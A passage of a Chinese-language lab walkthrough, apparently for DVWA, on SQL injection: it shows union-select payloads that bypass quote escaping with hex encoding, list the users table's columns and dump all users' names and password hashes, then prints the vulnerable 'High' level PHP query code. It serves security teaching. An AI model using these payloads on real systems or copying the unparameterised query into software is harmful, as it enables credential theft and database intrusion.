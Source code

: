 这是因为单引号被转义了，变成了\’。

可以利用16进制进行绕过，抓包更改参数id为1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0×7573657273 #，查询成功：

![image]({path}/58.png)

说明users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。

7.下载数据
抓包修改参数id为1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #，查询成功：

![image]({path}/59.png)

这样就得到了users表中所有用户的user_id,first_name,last_name,password的数据。

### High
服务器端核心代码


```
<?php 

if( isset( $_SESSION [ 'id' ] ) ) { 
    // Get input 
    $id = $_SESSION[ 'id' ]; 

    // Check database 
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id LIMIT 1;"; 
    $result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' ); 

    // Get results 
    $num = mysql_numrows( $result ); 
    $i   = 0; 
    while( $i < $num ) { 
        // Get values 
        $first = mysql_result( $result, $i, "first_name" ); 
        $last  = mysql_result( $result, $i, "last_name" ); 

        // Feedback for end user 
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 

        // Increase loop count 
        $i++; 
    } 

    mysql_close(); 
} 

?>
```

可以看到，与Medium级别的代码相比，High级别的只是在SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。
